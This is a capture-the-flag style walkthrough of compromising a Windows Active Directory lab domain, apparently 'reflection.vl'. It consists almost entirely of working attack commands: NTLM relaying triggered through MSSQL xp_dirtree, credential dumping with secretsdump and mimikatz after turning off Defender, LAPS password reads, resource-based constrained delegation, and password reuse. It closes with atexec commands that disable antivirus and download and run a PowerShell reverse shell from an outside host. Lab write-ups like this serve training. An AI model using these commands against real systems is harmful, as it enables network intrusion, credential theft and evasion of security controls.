

```
SMB         10.10.193.215   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.214   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
```


### INITIAL_ACCESS


We got guest level access in MS01 , and got a staging_db.conf file.


```
└─# crackmapexec smb ip_ -u guest -p '' --shares

└─# impacket-smbclient reflection.vl\guest@10.10.193.214
```


Its the credential of mssql server !


```
└─# impacket-mssqlclient reflection.vl/web_staging:Washroom510@10.10.193.214 
```


Now , We need to relay the authentication . i.e smb_relaying !  [Blog](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay#performing-the-attack-from-linux)


Attacker

Edit the /etc/responder/responder.conf file , Set SMB and HTTP to 'off'


Then start the responder and ntlmrelay tools !

```
└─# responder -I tun0 -v  
```


```
└─# impacket-ntlmrelayx -tf ip_ -smb2support -i
```


Victim 


```
SQL (web_staging  guest@master)> xp_dirtree \\10.8.0.148\chain\anything
```


WE got connection to the relay attack , Lets connect !


Cool ! We got access to the Domain Controller and got another conf. file.


DC also got mssql server , Lets connect to the DC's SQl Server !

```
└─# impacket-mssqlclient reflection.vl/web_prod:Tribesman201@10.10.193.213
```


```sql
enum_db

use prod

SELECT * FROM prod.INFORMATION_SCHEMA.TABLES;

select * from users;
```


```
abbie.smith  :::  CMe1x+nlRaaWEw

dorothy.rose  :::  hC_fny3OK9glSJ
```


They are domain Users . Lets enumerate AD !


```
└─# bloodhound-python --username abbie.smith --password 'CMe1x+nlRaaWEw' --domain reflection.vl --nameserver 10.10.193.213 --domain-controller DC01.reflection.vl --collectionmethod all --zip
```


Abbie.Smith got `GenericAll` privilege to MS01 server ! 

```This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.```


Checking LAPS credentials !

```
Windows Local Administrator Password Solution** (Windows LAPS) is a Windows feature that automatically manages and backs up the password of a local administrator account on your Microsoft Entra joined or Windows Server Active Directory-joined devices.
```


```
└─# crackmapexec ldap dc01 -u "abbie.smith" -p "CMe1x+nlRaaWEw" -M laps
```


### MS01

```
└─# crackmapexec smb 10.10.205.246 -u MS01$ -p 'H447.++h6g5}xi' --local-auth
```

Local-Auth --> It is computer account not domain-joined .

But this account doesnot have high privilege , Lets check for password Reuse !

```
└─# crackmapexec smb 10.10.205.246 -u administrator -p 'H447.++h6g5}xi' --local-auth
```

As this is the high level user , Now Lets dump some secrets along the way !!

```
└─# impacket-secretsdump MS01/administrator:'H447.++h6g5}xi'@10.10.205.246
```


Seems Like Georgia.Price have recently Logged-In to the system ! And she got high privilege !!


Lets Grab Mimikatz and Get her credentials from the system !


```
└─# evil-winrm -i 10.10.205.246 -u administrator -p 'H447.++h6g5}xi'
```

Before Runnning mimikatz , disable AV.

```
powershell.exe Set-MpPreference -DisableScriptScanning 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring 1
```

Then , 

```
.\mimikatz.exe "token::elevate" "privilege::debug" "lsadump::sam" "vault::cred /patch" "exit"
```


Cool ! We Got her Credentials . Lets Explore and Penetrate More!

### WS01


```
The user GEORGIA.PRICE@REFLECTION.VL has GenericAll privileges to the computer WS01.REFLECTION.VL.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.
```


This time there isnt LAPS credentials stored in the DC. We gotta do RBCD Attack as we already compromised MS01 we can delegate to WS01.


```
└─# impacket-rbcd 'reflection.vl/Georgia.Price:DBl+5MPkpJg5id' -delegate-from MS01$ -delegate-to WS01$ -action 'write' -dc-ip DC01
```


```
└─# impacket-getST -dc-ip dc01 -spn cifs/ws01 'reflection.vl/ms01$' -impersonate administrator -hashes :ce3fff37d339890e91728fde0d381c45
```


Cool ! We impersonated Administrator !!


```
└─# export KRB5CCNAME=administrator@cifs_ws01@REFLECTION.VL.ccache
```

```
└─# impacket-secretsdump -k ws01
```




We got Rhys.Garner Credentials ! Lets check his privileges ! He dont have privilege , But Dom_Rgarner might be the higher priv. account of rhys.


Yeah , It is and also he reused his credentials for both of his accounts !


```
└─# crackmapexec smb dc01 -u dom_rgarner -p 'knh1gJ8Xmeq+uP'
```


The Domain Controlled is Pwned !


## Learned 

SMB relaying 
Generic All Attack 
	--> Read LAPS Credentials
	 --> RBCD Attack
Password Reuse 


## Reverse Shell

We are using atexec to disable windows defender and execute a nishang reverse shell to get access to the box WS01

```bash
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"' 
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -ExclusionPath C:\\"'
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.84/shell.ps1');"
```


```
└─# crackmapexec smb ws01 -u administrator -H a29542cb2707bf6d6c1d2c9311b0ff02 --local-auth --get-file \\Users\\rhys.garner\\Desktop\\flag.txt flag --exec-method atexec
```
